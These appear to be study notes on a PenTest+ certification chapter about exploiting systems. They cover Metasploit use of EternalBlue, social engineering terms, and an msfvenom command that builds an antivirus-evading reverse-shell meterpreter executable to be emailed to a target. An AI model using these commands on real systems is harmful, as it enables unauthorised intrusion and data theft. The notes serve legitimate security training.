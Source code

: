# CompTIA® PenTest+® Certification For Dummies®, 2nd Edition
# Chapter 5: Exploiting Systems

Common Types of Exploits to gain access to systems
- Server Message Block (SMB), Pass the Hash, Password Cracking, Social Engineering, Man in the Middle (MiTM), Attacks on Physical Security.

## Exploiting System with Metasploit

A list of vuln that can be exploited to gain access to those systems after the vuln scan.
- Metasploit = Most popular exploit tool.


## Metasploit

Kali Linux: `msfconsole`  command.
- type `?` to bring up the help screen

Metasploit Exploit Rankings
- Rank indicates the usual success rate of the exploit.
- Good, Great, or Excellent is a good ranking.

![image](https://github.com/user-attachments/assets/dfdf5bb5-03d9-492f-9d75-5516bf581c35)


Each exploit = separate module in Metasploit.
- `Search` command to search for your exploit; `> search EternalBlue`.
- `Use` command to use the exploit; `> use exploit/windows/smb/ms_17_010_eternalblue`.
- `show options` command to see what options need to be filled. `> show options`.
  - RHOST = remote host

![image](https://github.com/user-attachments/assets/ddecb943-e3bc-4fa7-946f-9f325f832e9d)

- `set` command to set the option name for the required option; `> set RHOST 192.168.67.135`.

![image](https://github.com/user-attachments/assets/05ec6cc9-8253-4ba9-86e6-7c5006b46a9f)

- `exploit` command to run the exploit; `> exploit`.


WIN text after running the exploit = Windows command prompt of the target system, that you have admin capabilities of the target.

![image](https://github.com/user-attachments/assets/2b2bee4c-7cc5-4b83-b84d-d51826304ea5)

You will gain Windows\system32 shell access to the system. `CTRL + C` to exit.

![image](https://github.com/user-attachments/assets/28fe4432-f0bb-474e-99ee-53a84c47964d)

#

## Setting the Payload

Execute the Payload when you gain access to the system by exploiting the vuln.


Types of payload:
- Bind Shell, Reverse Bind Shell, Meterpreter Shell

![image](https://github.com/user-attachments/assets/63da9de5-fee9-4132-9d57-67884d93e976)


Select a payload with `set payload` command.

![image](https://github.com/user-attachments/assets/51f76304-249a-4cc2-8b1a-93576f360bec)

It's a good idea to use `show options` command to see if there are any payload options that needs to be set after changing the payload.

#

## Msfvenom

Msfvenom = payload generator that generate and output shell codes on Metasploit.
- Reverse Shell: enable you to obtain meterpreter session with target.
- Meterpreter session: Can download files from victim's PC, obtain password hashes, use webcam, and run many other post exploitation commands.

## Steps used to exploit system with malicous code generated with Msfvenom

1. Run `ifconfig` and record your own IP address.

2. Obtain meterpreter session using reverse TCP shell:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip_of_Kali> LPORT=4444 -a x86 --platform win -e x86/shikata_ga_nai -f exe -i 15 > /root/Desktop/ClarkeMalware.exe`

- -p: specifies the payload you wish to use.
- LHOST: specifies the IP address with which to obtain a reverse connection. This will be the IP address of the Kali system that will run a listener waiting for the program to connect.
- LPORT: specifies the port to connect to on the Kali system.
- -a x86: specifies the architecture of x86 for the created code.
- --platform win: specifies the code generated is for a Windows system.
- -e: specifies the encoder to use.
- -f exe: specifies the format of the generated code is to be an .exe file.
- -i 15: specifies to encode the program 15 times as an attempt to hide the malicious code from antivirus software.
-  `>`: specifies the filename to generate.
    

3. Setup a listener on your system by running:

`msfconsole`
`use exploit/multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set LHOST <ip_of_Kali>`
`exploit`

![image](https://github.com/user-attachments/assets/2b4f303a-240c-405d-b817-bd159c0d3f8d)


4. Copy or email malware to target machine:

When the user runs the program, the user’s system will connect to your Kali Linux system (the pentester system). Once connected, you will have a meterpreter shell to do as you please with the user’s system.

#

## Common Websites to Locate Exploit Against Different Products:

- Exploit-DB exploit database (DB): Source of info on exploits against vulnerable software. `www.exploit-db.com`
- Packet Storm: Listing of exploits against different software. `packetstormsecurity.com`

#

## Social Engineering

Phishing

- Spear phishing: Refers to a phishing attack that targets a specific person.
- SMS phishing: Short message service (SMS) phishing, also known as smishing, is a phishing attack conducted through text messaging instead of email.
- Vishing: Phishing attacks that use voice over the phone instead of email.
- Whaling: Refers to a phishing attack that targets the “big fish” of a company, such as the CEO.

Interrogation: asking people question, number of physical reactions to the question can be used to identify area that should be more questioning.

Watering Hole Attack: When hacker compromises a popular website then places code on site that will execute in browser of anyone who visits the site. The code then compromises the visitor's PC giving hacker access to visitor.


#

## Exam Key

- Social Engineering goal = elicitation (method of communication used to get information from someone without making them aware that they are being targeted), causing victom to compromise security.
- Business Email Compromise (BEC) attack = gain access to employee's corporate email account and use it to send messages to other employees in the company.
